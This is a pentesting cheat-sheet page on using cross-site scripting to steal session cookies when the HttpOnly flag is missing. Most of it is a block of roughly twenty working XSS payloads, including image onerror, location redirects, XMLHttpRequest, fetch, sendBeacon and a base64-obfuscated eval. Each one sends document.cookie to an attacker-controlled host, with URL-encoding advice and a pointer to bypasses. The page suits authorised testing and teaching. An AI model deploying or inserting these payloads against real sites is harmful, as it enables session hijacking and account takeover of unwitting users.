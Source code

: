 # Cookie-Based Privilege Escalation

We can leverage XSS to steal cookies and session information

**Relevant flags:**

- **Secure** - Instructs the browser to only send the cookie over encrypted connections (HTTPS)
- **HttpOnly** - Denies JavaScript access to the cookie

If **HttpOnly** is not set, we can leverage XSS to steal a cookie (although there are potential bypasses linked below)

## Examples (DON'T FORGET URL ENCODING)

```js
// Using image tag on error event
<img src=x onerror=this.src="http://$OUR_IP/?c="+document.cookie>
<img src=x onerror="location.href='http://$OUR_IP/?c='+ document.cookie">

// Using image and audio objects
<script>new Image().src="http://$OUR_IP/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://$OUR_IP/?c="+escape(document.cookie);</script>
<script>var i=new Image();i.src="http://$OUR_IP/?c="+document.cookie</script>

// Using document location manipulation
<script>location.href = 'http://$OUR_IP/?c='+document.cookie</script>
<script>location = 'http://$OUR_IP/?c='+document.cookie</script>
<script>document.location = 'http://$OUR_IP/?c='+document.cookie</script>
<script>document.location.href = 'http://$OUR_IP/?c='+document.cookie</script>
<script>window.location.assign('http://$OUR_IP/?c='+document.cookie)</script>
<script>window['location']['assign']('http://$OUR_IP/?c='+document.cookie)</script>
<script>window['location']['href']('http://$OUR_IP/?c='+document.cookie)</script>
<script>document.location=["http://$OUR_IP?c",document.cookie].join()</script>
<script>window.location="https://$OUR_IP/?c=".concat(document.cookie)</script>

// Using document.write
<script>document.write('<img src="http://$OUR_IP?c='+document.cookie+'" />')</script>

// Using XMLHttpRequest
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://$OUR_IP/?c="%2Bdocument.cookie, true);xhttp.send();</script>

// Using eval() to decode and execute base64 encoded script
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxPVVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
// The base64 encoded payload: document.write("<img src='https://$OUR_IP?c="+ document.cookie +"' />")

// Using fetch API
<script>fetch('https://$OUR_SUBDOMAIN.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>

// Using beacon API
<script>navigator.sendBeacon('https://$OUR_IP/x/AAAAA',document.cookie)</script>
```

See [HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#xss-common-payloads) for additional techniques and bypasses
